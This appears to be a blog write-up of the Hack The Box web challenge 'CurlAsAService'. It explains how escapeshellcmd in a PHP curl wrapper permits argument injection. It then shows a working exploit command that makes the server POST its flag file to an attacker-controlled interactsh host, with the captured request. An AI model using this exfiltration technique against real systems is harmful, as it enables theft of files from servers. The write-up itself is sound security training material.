


+++
title = "CurlAsAService"
date = "2024-03-23"
description = "This is an easy Web challenge."
[extra]
cover = "cover.svg"
toc = true
+++

# Information

**Difficulty**: Easy

**Category**: Web

**Release date**: 2023-09-29

**Created by**: [makelaris](https://app.hackthebox.com/users/107) &
[TRX](https://app.hackthebox.com/users/31190)

**Description**: cURL As A Service or CAAS is a brand new Alien application,
built so that humans can test the status of their websites. However, it seems
that the Aliens have not quite got the hang of Human programming and the
application is riddled with issues.

# Setup

I'll complete this challenge using a Kali Linux VM.

# Files

For this challenge, we're given the source code of the target website.

```sh
❯ tree -a "/workspace"
```

```
/workspace
└── web_caas
    ├── Dockerfile
    ├── build_docker.sh
    ├── challenge
    │   ├── Router.php
    │   ├── controllers
    │   │   └── CurlController.php
    │   ├── index.php
    │   ├── models
    │   │   └── CommandModel.php
    │   ├── static
    │   │   ├── css
    │   │   │   └── main.css
    │   │   └── js
    │   │       └── main.js
    │   └── views
    │       └── index.php
    ├── config
    │   ├── fpm.conf
    │   ├── nginx.conf
    │   └── supervisord.conf
    └── flag

<SNIP>
```

Apparently, it's an Nginx server.

I'll execute the `build_docker.sh` script on my machine to replicate the setup
on the target machine.

# Socket `127.0.0.1:1337`

## Exploration

Let's browse to `http://127.0.0.1:1337/`:



It's a website to verify the status of a host.

## Fingerprinting

Let's fingerprint the technologies used by this web page with the
[Wappalyzer](https://www.wappalyzer.com/) extension.


## Exploration

If we query the localhost, we receive the HTML corresponding to the web page.

If we specify an invalid URL, we receive the `Illegal Characters Detected`
message.

# Files

This website follows a MVC design pattern.

As usual with this pattern, the `CurlController.php` file is of particular
interest:

```php
<?php
class CurlController
{
    public function index($router)
    {
        return $router->view("index");
    }

    public function execute($router)
    {
        $url = $_POST["ip"];

        if (isset($url)) {
            $command = new CommandModel($url);
            return json_encode(["message" => $command->exec()]);
        }
    }
}
```

This controller is mapped to the `/api/curl` endpoint. It retrieves the `ip`
value from the POST parameter and generates a new `CommandModel` object using
this `ip` value. Then, it returns the output of the `exec` function as a JSON
`message` field.

```php
<?php
class CommandModel
{
    public function __construct($url)
    {
        $this->command =
            "curl --proto =http,https -sSL " . escapeshellcmd($url) . " 2>&1";
    }

    public function exec()
    {
        $output = shell_exec($this->command);
        return $output;
    }
}
```

The `CommandModel.php` file holds the logic for checking the host connectivity.
In fact, it has a `command` attribute corresponding to an OS command that uses
`curl` with the parameters `--proto=http,https`(to enable HTTP and HTTPS
requests), `-sSL` (to silently perform the request, to follow redirects and to
show if it failed to perform the request) followed by the escaped `url`.

The `exec` function is used to actually execute this command on the OS, and to
return the output.

# Socket `127.0.0.1:1337`

## OS command injection

The interesting thing with the source code of this website is that the `url`
variable used with `curl` is user-controllable, and is set to the value of the
`ip` POST parameter sent to `/api/curl`. This means that we can control which
command is executed on the system.

Unfortunately, we don't have an OS command injection, since the website uses
`escapeshellcmd` to escape all shell characters.

## LFI

What we can do however is an argument injection: `escapeshellcmd` doesn't escape
spaces, so we can pass arguments to the `curl` command to change its intended
behavior.

One thing to note is that `curl` can be used to send data, and that the `@`
symbol indicates to `curl` that what follows is a file path from which the data
should be read. Therefore, we can coerce `curl` into sending data instead of
querying data!

Since we can control the queried URL, and there's no URL validation in place, we
can specify a server we control and see the data sent in the request to
essentially obtain a LFI.

### Preparation

I'll use `interactsh` to setup a fake server.

```sh
❯ interactsh-client -v -http-only
```

```
<SNIP>
[INF] cnvhqtlut6afj4d5cq20q5rhqnorn36kb.oast.live
```

### Exploitation

Let's coerce the website into sending the `flag` file:

```sh
❯ curl -s -o "/dev/null" "http://127.0.0.1:1337/api/curl" -X "POST" --data-urlencode "ip=http://cnvhqtlut6afj4d5cq20q5rhqnorn36kb.oast.live -X POST -d @../../flag"
```

```
------------
HTTP Request
------------

POST / HTTP/1.1
Host: cnvhqtlut6afj4d5cq20q5rhqnorn36kb.oast.live
Accept: */*
Content-Length: 26
Content-Type: application/x-www-form-urlencoded
User-Agent: curl/7.64.0

HTB{f4k3_fl4g_f0r_t3st1ng}
```

We got the testing flag!

# Socket `94.237.49.166:45094`

Let's replicate this process to obtain the flag on the target machine.

```
------------
HTTP Request
------------

POST / HTTP/1.1
Host: cnvhqtlut6afj4d5cq20q5rhqnorn36kb.oast.live
Accept: */*
Content-Length: 32
Content-Type: application/x-www-form-urlencoded
User-Agent: curl/7.64.0

HTB{f1l3_r3tr13v4l_4s_4_s3rv1c3}
```

We got the flag!

# Afterwords



That's it for this box! 🎉

I rated this challenge as 'Very easy'. The path leading to the flag was rather
obvious, and straightforward to exploit, but I lost a bit of time trying to
obtain an OS command injection.

Thanks for reading!
